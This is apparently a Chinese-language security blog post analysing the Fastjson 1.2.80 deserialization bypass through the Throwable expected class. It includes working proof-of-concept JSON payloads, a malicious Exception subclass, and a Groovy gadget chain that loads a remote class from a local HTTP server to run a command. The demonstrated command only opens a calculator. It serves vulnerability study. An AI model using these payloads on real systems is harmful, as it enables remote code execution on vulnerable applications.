







+++
title= "Fastjson1.2.80反序列化漏洞"
slug= "fastjson-1.2.80-deserialization"
description= ""
date= "2025-10-21T22:08:24+08:00"
lastmod= "2025-10-21T22:08:24+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

1.2.68 版本修复方案，是将`java.lang.Runnable、java.lang.Readable和java.lang.AutoCloseable`加入黑名单，那么 1.2.80 用的就是另一个期望类，异常类`Throwable`。

关键点在于**反序列化setter method parameter OR public field（无视autotype）时添加类到白名单**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson-groovy-gadget</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.80</fastjson.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>
    </dependencies>
</project>
```

## 漏洞分析

由于需要直接或间接的继承异常类`Throwable`，所以重新写个恶意类

```java
package org.Base;

import java.io.IOException;

public class Eval extends IOException {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

Poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;

public class JdbcRowSetImplPoc {
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"org.Base.Eval\",\"name\":\"tttt\"}";
        JSON.parse(json);
    }
}
```

这里我们只是检测 Exception 是否可用，触发 setter 方法，必然弹出计算器。



还是去看`checkAutoType`的检测机制，

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    } else {
        if (this.autoTypeCheckHandlers != null) {
            for(AutoTypeCheckHandler h : this.autoTypeCheckHandlers) {
                Class<?> type = h.handler(typeName, expectClass, features);
                if (type != null) {
                    return type;
                }
            }
        }

        int safeModeMask = Feature.SafeMode.mask;
        boolean safeMode = this.safeMode || (features & safeModeMask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & safeModeMask) != 0;
        if (safeMode) {
            throw new JSONException("safeMode not support autoType : " + typeName);
        } else if (typeName.length() < 192 && typeName.length() >= 3) {
            boolean expectClassFlag;
            if (expectClass == null) {
                expectClassFlag = false;
            } else {
                long expectHash = TypeUtils.fnv1a_64(expectClass.getName());
                if (expectHash != -8024746738719829346L && expectHash != 3247277300971823414L && expectHash != -5811778396720452501L && expectHash != -1368967840069965882L && expectHash != 2980334044947851925L && expectHash != 5183404141909004468L && expectHash != 7222019943667248779L && expectHash != -2027296626235911549L && expectHash != -2114196234051346931L && expectHash != -2939497380989775398L) {
                    expectClassFlag = true;
                } else {
                    expectClassFlag = false;
                }
            }

            String className = typeName.replace('$', '.');
            long h1 = (-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L;
            if (h1 == -5808493101479473382L) {
                throw new JSONException("autoType is not support. " + typeName);
            } else if ((h1 ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                long h3 = (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L ^ (long)className.charAt(2)) * 1099511628211L;
                long fullHash = TypeUtils.fnv1a_64(className);
                boolean internalWhite = Arrays.binarySearch(INTERNAL_WHITELIST_HASHCODES, fullHash) >= 0;
                if (this.internalDenyHashCodes != null) {
                    long hash = h3;

                    for(int i = 3; i < className.length(); ++i) {
                        hash ^= (long)className.charAt(i);
                        hash *= 1099511628211L;
                        if (Arrays.binarySearch(this.internalDenyHashCodes, hash) >= 0) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }
                    }
                }

                if (!internalWhite && (this.autoTypeSupport || expectClassFlag)) {
                    long hash = h3;

                    for(int i = 3; i < className.length(); ++i) {
                        hash ^= (long)className.charAt(i);
                        hash *= 1099511628211L;
                        if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                            Class<?> clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
                            if (clazz != null) {
                                return clazz;
                            }
                        }

                        if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null && Arrays.binarySearch(this.acceptHashCodes, fullHash) < 0) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }
                    }
                }

                Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
                if (clazz == null) {
                    clazz = this.deserializers.findClass(typeName);
                }

                if (clazz == null) {
                    clazz = (Class)this.typeMapping.get(typeName);
                }

                if (internalWhite) {
                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
                }

                if (clazz != null) {
                    if (expectClass != null && clazz != HashMap.class && clazz != LinkedHashMap.class && !expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    } else {
                        return clazz;
                    }
                } else {
                    if (!this.autoTypeSupport) {
                        long hash = h3;

                        for(int i = 3; i < className.length(); ++i) {
                            char c = className.charAt(i);
                            hash ^= (long)c;
                            hash *= 1099511628211L;
                            if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                                throw new JSONException("autoType is not support. " + typeName);
                            }

                            if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
                                if (clazz == null) {
                                    return expectClass;
                                }

                                if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                                }

                                return clazz;
                            }
                        }
                    }

                    boolean jsonType = false;
                    InputStream is = null;

                    try {
                        String resource = typeName.replace('.', '/') + ".class";
                        if (this.defaultClassLoader != null) {
                            is = this.defaultClassLoader.getResourceAsStream(resource);
                        } else {
                            is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
                        }

                        if (is != null) {
                            ClassReader classReader = new ClassReader(is, true);
                            TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
                            classReader.accept(visitor);
                            jsonType = visitor.hasJsonType();
                        }
                    } catch (Exception var24) {
                    } finally {
                        IOUtils.close(is);
                    }

                    int mask = Feature.SupportAutoType.mask;
                    boolean autoTypeSupport = this.autoTypeSupport || (features & mask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
                    if (autoTypeSupport || jsonType || expectClassFlag) {
                        boolean cacheClass = autoTypeSupport || jsonType;
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, cacheClass);
                    }

                    if (clazz != null) {
                        if (jsonType) {
                            TypeUtils.addMapping(typeName, clazz);
                            return clazz;
                        }

                        if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz) || RowSet.class.isAssignableFrom(clazz)) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }

                        if (expectClass != null) {
                            if (expectClass.isAssignableFrom(clazz)) {
                                TypeUtils.addMapping(typeName, clazz);
                                return clazz;
                            }

                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, this.propertyNamingStrategy);
                        if (beanInfo.creatorConstructor != null && autoTypeSupport) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }
                    }

                    if (!autoTypeSupport) {
                        throw new JSONException("autoType is not support. " + typeName);
                    } else {
                        if (clazz != null) {
                            TypeUtils.addMapping(typeName, clazz);
                        }

                        return clazz;
                    }
                }
            }
        } else {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
```

与 1.2.68 进行对比



这里是添加了黑名单



新增对 LinkedHashmap 的处理



新增回退到期望类的功能，说白了，没啥用这几个新东西，因为 Throwable 绕过了，所以依旧正常加载



现在主要去研究`ThrowableDeserializer#deserialze`的部分，

```java
public <T> T deserialze(DefaultJSONParser parser, Type type, Object fieldName) {
        JSONLexer lexer = parser.lexer;
        if (lexer.token() == 8) {
            lexer.nextToken();
            return null;
        } else {
            if (parser.getResolveStatus() == 2) {
                parser.setResolveStatus(0);
            } else if (lexer.token() != 12) {
                throw new JSONException("syntax error");
            }

            Throwable cause = null;
            Class<?> exClass = null;
            if (type != null && type instanceof Class) {
                Class<?> clazz = (Class)type;
                if (Throwable.class.isAssignableFrom(clazz)) {
                    exClass = clazz;
                }
            }

            String message = null;
            StackTraceElement[] stackTrace = null;
            Map<String, Object> otherValues = null;

            while(true) {
                String key = lexer.scanSymbol(parser.getSymbolTable());
                if (key == null) {
                    if (lexer.token() == 13) {
                        lexer.nextToken(16);
                        break;
                    }

                    if (lexer.token() == 16 && lexer.isEnabled(Feature.AllowArbitraryCommas)) {
                        continue;
                    }
                }

                lexer.nextTokenWithColon(4);
                if (JSON.DEFAULT_TYPE_KEY.equals(key)) {
                    if (lexer.token() != 4) {
                        throw new JSONException("syntax error");
                    }

                    String exClassName = lexer.stringVal();
                    exClass = parser.getConfig().checkAutoType(exClassName, Throwable.class, lexer.getFeatures());
                    lexer.nextToken(16);
                } else if ("message".equals(key)) {
                    if (lexer.token() == 8) {
                        message = null;
                    } else {
                        if (lexer.token() != 4) {
                            throw new JSONException("syntax error");
                        }

                        message = lexer.stringVal();
                    }

                    lexer.nextToken();
                } else if ("cause".equals(key)) {
                    cause = (Throwable)this.deserialze(parser, (Type)null, "cause");
                } else if ("stackTrace".equals(key)) {
                    stackTrace = (StackTraceElement[])parser.parseObject(StackTraceElement[].class);
                } else {
                    if (otherValues == null) {
                        otherValues = new HashMap();
                    }

                    otherValues.put(key, parser.parse());
                }

                if (lexer.token() == 13) {
                    lexer.nextToken(16);
                    break;
                }
            }

            Throwable ex = null;
            if (exClass == null) {
                ex = new Exception(message, cause);
            } else {
                if (!Throwable.class.isAssignableFrom(exClass)) {
                    throw new JSONException("type not match, not Throwable. " + exClass.getName());
                }

                try {
                    ex = this.createException(message, cause, exClass);
                    if (ex == null) {
                        ex = new Exception(message, cause);
                    }
                } catch (Exception e) {
                    throw new JSONException("create instance error", e);
                }
            }

            if (stackTrace != null) {
                ex.setStackTrace(stackTrace);
            }

            if (otherValues != null) {
                JavaBeanDeserializer exBeanDeser = null;
                if (exClass != null) {
                    if (exClass == this.clazz) {
                        exBeanDeser = this;
                    } else {
                        ObjectDeserializer exDeser = parser.getConfig().getDeserializer(exClass);
                        if (exDeser instanceof JavaBeanDeserializer) {
                            exBeanDeser = (JavaBeanDeserializer)exDeser;
                        }
                    }
                }

                if (exBeanDeser != null) {
                    for(Map.Entry<String, Object> entry : otherValues.entrySet()) {
                        String key = (String)entry.getKey();
                        Object value = entry.getValue();
                        FieldDeserializer fieldDeserializer = exBeanDeser.getFieldDeserializer(key);
                        if (fieldDeserializer != null) {
                            FieldInfo fieldInfo = fieldDeserializer.fieldInfo;
                            if (!fieldInfo.fieldClass.isInstance(value)) {
                                value = TypeUtils.cast(value, fieldInfo.fieldType, parser.getConfig());
                            }

                            fieldDeserializer.setValue(ex, value);
                        }
                    }
                }
            }

            return (T)ex;
        }
    }
```

关键处理在这



先 createException 通过构造函数创建异常实例，然后通过 getDeserializer 拿到对应的反序列化器，然后用反序列化器拿到对应字段的字段反序列化实例 FieldDeserializer。

```java
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:220)
at com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer.deserialze(ThrowableDeserializer.java:155)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:405)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1430)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1390)
at com.alibaba.fastjson.JSON.parse(JSON.java:181)
at com.alibaba.fastjson.JSON.parse(JSON.java:191)
at com.alibaba.fastjson.JSON.parse(JSON.java:147)
at org.fastjson.JdbcRowSetImplPoc.main(JdbcRowSetImplPoc.java:8)
```

## gadget

### groovy

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson-groovy-gadget</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.80</fastjson.version>
        <groovy.version>3.0.12</groovy.version>
        <javassist.version>3.28.0-GA</javassist.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy-all</artifactId>
            <version>${groovy.version}</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
    </dependencies>
</project>
```

装好依赖，poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONException;

public class JdbcRowSetImplPoc {
    public static void main(String[] args) {
        String json1 = "{" +
                "\"@type\":\"java.lang.Exception\"," +
                "\"@type\":\"org.codehaus.groovy.control.CompilationFailedException\"," +
                "\"unit\":{}" +
                "}";


        String json2 = "{" +
                "\"@type\":\"org.codehaus.groovy.control.ProcessingUnit\"," +
                "\"@type\":\"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit\"," +
                "\"config\":{" +
                "\"@type\":\"org.codehaus.groovy.control.CompilerConfiguration\"," +
                "\"classpathList\":\"http://127.0.0.1:8090/\"" +
                "}" +
                "}";

        try {
            JSON.parse(json1);
        } catch (JSONException e) {
            e.printStackTrace();
        }

        JSON.parse(json2);
    }
}
```

恶意类

```java
import org.codehaus.groovy.ast.ASTNode;
import org.codehaus.groovy.control.SourceUnit;
import org.codehaus.groovy.transform.ASTTransformation;

public class Eval implements ASTTransformation {
    public void visit(ASTNode[] var1, SourceUnit var2) {
    }

    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception var1) {
            var1.printStackTrace();
        }

    }
}
```

对类进行编译

```bash
mvn dependency:build-classpath

javac -cp ".:/Users/admin/.m2/repository/org/codehaus/groovy/groovy-all/2.4.21/groovy-all-2.4.21.jar" Eval.java
```



复现起来过于麻烦，参考文章里面有很多 poc，大家有兴趣自己复现～

> https://changeyourway.github.io/2025/08/23/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-Fastjson%201.2.68-1.2.80%20%E5%88%A9%E7%94%A8/
>
> https://xz.aliyun.com/news/14309
>
> https://y4er.com/posts/fastjson-1.2.80/
>
> https://github.com/su18/hack-fastjson-1.2.80
>
> https://www.freebuf.com/vuls/354868.html
>
> https://blog.ninefiger.top/2022/11/11/fastjson%201.2.73-12.80%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
